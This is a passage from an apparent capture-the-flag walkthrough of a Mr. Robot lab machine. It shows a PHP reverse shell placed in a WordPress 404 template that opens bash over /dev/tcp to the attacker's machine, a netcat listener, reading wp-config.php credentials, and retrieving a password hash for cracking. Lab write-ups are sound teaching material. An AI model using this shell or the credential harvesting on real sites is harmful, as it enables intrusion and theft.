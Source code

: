 Now we search a key inside the machine using shell.

**Another method by using Php script**
Go to Apperance->Editor-> 404 template
paste the below reverse php Script.
```text
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/"local machine ip address"/443 0>&1'");
?>
```
Update the file
Now setup the listener using netcat
```text
sudo nc -lvp 443
```
<img src="./img/Screenshot 2024-08-24 121743 1.png"></img>
now
search a non existing directory that gives you 404 error.
```text
http://192.168.0.6/ddxf
```
Successfully got reverse shell in our terminal
Lets look for other details
Just perform some basic cmds like
```text
ls
cat wp-config.php
```
We can see the configuration of the database for the mr.robot we got many passwords and user
```text
ls -la /home
```
We got a robot directory
look into that
```text
ls -la /home/robot
```
we got a key file and  password.raw.md5 file and the key file only accessed by robot user, 
cat password file.
```text
cat /home/robot/password.raw-md5
```

we got <img src="./img/Screenshot 2024-08-24 122456.png"></img>a hash string
Put that hash string into the https://crackstation.net/